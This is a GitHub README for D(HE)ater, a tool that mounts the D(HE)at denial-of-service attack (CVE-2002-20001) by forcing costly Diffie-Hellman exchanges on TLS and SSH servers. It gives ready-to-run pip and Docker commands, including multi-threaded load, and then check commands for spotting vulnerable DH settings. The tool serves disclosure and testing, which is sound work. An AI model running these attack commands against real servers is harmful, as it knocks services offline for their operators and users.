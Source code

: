 # D(HE)ater

D(HE)ater is an attacking tool based on CPU heating in that it forces the ephemeral variant of
[Diffie-Hellman key exchange](https://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) (DHE) in given
cryptography protocols (e.g. TLS, SSH). It is performed without calculating a cryptographically correct ephemeral key on
the client-side, but with a significant amount of calculation on the server-side. Based on this,
a [denial-of-service (DoS) attack](https://en.wikipedia.org/wiki/Denial-of-service_attack) can be initiated,
called [D(HE)at attack](https://dheatattack.com)
([CVE-2002-20001](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-20001)).

## Quick start

D(HE)ater can be installed directly via [pip](https://pip.pypa.io/en/stable/) from
[PyPi](https://pypi.org/project/dheater/)

```console
pip install dheater
dheat --protocol tls ecc256.badssl.com
dheat --protocol ssh ecc256.badssl.com
```

or can be used via [Docker](https://www.docker.com/) from
[Docker Hub](https://hub.docker.com/repository/docker/balasys/dheater)

```console
docker pull balasys/dheater
docker run --tty --rm balasys/dheater --protocol tls ecc256.badssl.com
docker run --tty --rm balasys/dheater --protocol ssh ecc256.badssl.com
```

You can increase load by string extra threads.

```console
dheat --thread-num 4 --protocol tls ecc256.badssl.com
docker run --tty --rm balasys/dheater --thread-num 4 --protocol tls ecc256.badssl.com
docker run --tty --rm balasys/dheater --thread-num 4 --protocol ssh ecc256.badssl.com
```

## Check

Without attacking a server or accessing its configuration it is still possible
to determine whether Diffie-Hellman (DH) key exchange is enabled and if so what
DH parameters (prime, genrator, key size) are used.  Command line tools such as
[CryptoLyzer](https://gitlab.com/coroner/cryptolyzer) (TLS, SSH KEX/GEX),
[testssl.sh](https://testssl.sh) (TLS only), or
[ssh-audit](https://github.com/jtesta/ssh-audit) (SSH KEX only) can do that work.

### TLS

```
cryptolyze tls1_2 dhparams example.com
cryptolyze tls1_3 dhparams example.com

testssl.sh --fs example.com
```
